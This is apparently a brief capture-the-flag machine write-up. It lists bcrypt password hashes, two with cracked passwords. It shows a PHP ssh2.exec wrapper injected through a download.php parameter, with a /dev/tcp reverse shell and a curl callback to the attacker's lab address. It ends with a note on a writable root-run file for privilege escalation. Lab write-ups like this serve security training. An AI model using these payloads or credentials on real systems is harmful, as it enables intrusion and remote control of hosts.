 ## Credentials
yurivich@era.com

ethan$2a$10$PkV/LAd07ftxVzBHhrpgcOwD3G1omX4Dk2Y56Tv9DpuUV/dh/a1wC
john$2a$10$iccCEz6.5.W2p7CSBOr3ReaOqyNmINMH1LaqeQaL22a1T1V/IddE6
~={yellow}yuri=~$2b$12$HkRKUdjjOdf2WuTXovkHIOXwVDfSrgCqqHPpE37uWejRqUWqwEL2.:~={yellow}mustang=~
veronica$2y$10$xQmS7JL8UT4B3jAYK7jsNeZ4I.YqaFFnZNA/2GCxLveQ805kuQGOK
admin_ef01cab31aa$2y$10$wDbohsUaezf74d3sMNRPi.o93wDxJqphM2m0VVUp41If6WrYr.QPC
~={yellow}eric=~$2y$10$S9EOSDqF1RzNUvyVj7OtJ.mskgP1spN3g2dneU.D.ABQLhSV2Qvxm:~={yellow}america=~


ssh2.exec://user:pass@example.com:22/usr/local/bin/sh -i >& /dev/tcp/10.10.16.94/4444 0>&1
GET /download.php?show=true&id=9215&format=ssh2.exec://yuri:mustang@10.10.11.79:22/usr/bin/curl+http://10.10.16.94:3000/

### wrapper
```sh
GET /download.php?show=true&id=150&format=ssh2.exec://eric:america@localhost:22/sh+i+>%26+/dev/tcp/10.10.16.94/4444+0>%261;curl http://10.10.16.94:3000/; HTTP/1.1
```
- Use `localhost` anytime you want to access service that is running on the server. Don't use the IP address of the server it self.

## PrivEsc

Then found executable file that root runs it, and i have permissions to rewrite it.
